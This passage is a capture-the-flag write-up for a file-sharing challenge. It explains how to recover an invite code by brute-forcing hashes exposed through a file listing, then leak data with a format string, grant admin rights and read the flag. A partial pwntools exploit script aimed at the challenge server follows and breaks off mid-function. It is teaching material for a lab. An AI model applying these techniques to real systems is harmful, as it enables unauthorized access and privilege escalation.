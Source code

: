 The created hash value can be confirmed via `listFiles`, so obtain the hash from there and identify the part of `invitecode` string by performing an bruteforce locally. The `invitecode` can be restored by repeating this process the number of characters of the `invitecode`. Note that `listFiles` shows that the provided `invitecode` is 19 characters, while the remote one is 20 characters, so you will need to adjust the offset. Also, the offset increases each time a file is registered, so you need to take that into consideration too.

After leaking the `invitecode`, we just create a user, leak it using a format string, give the created user admin privileges, and read the flag.

```python
from pwn import *
#context.log_level = 'debug'
from zipfile import ZipFile 
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './chal'
HOST = 'myfiles.chal.irisc.tf'
PORT =  10001

def start():
    if not args.R:
        print("local")
        return process(TARGET)
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

from binascii import hexlify
def upload(uid, file):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b'? ', str(uid).encode())
    r.sendlineafter(b'file\n', hexlify(file))

def list_file(uid=15):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'? ', str(uid).encode())

def create_user(code, name, pw):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'? ', code)
    r.sendlineafter(b'? ', name)
    r.sendlineafter(b'? ', pw)

def view_file(uid, pw, cid): 
    r.sendlineafter(b'> ', b'5')
    r.sendlineafter(b'? ', str(uid).encode())
```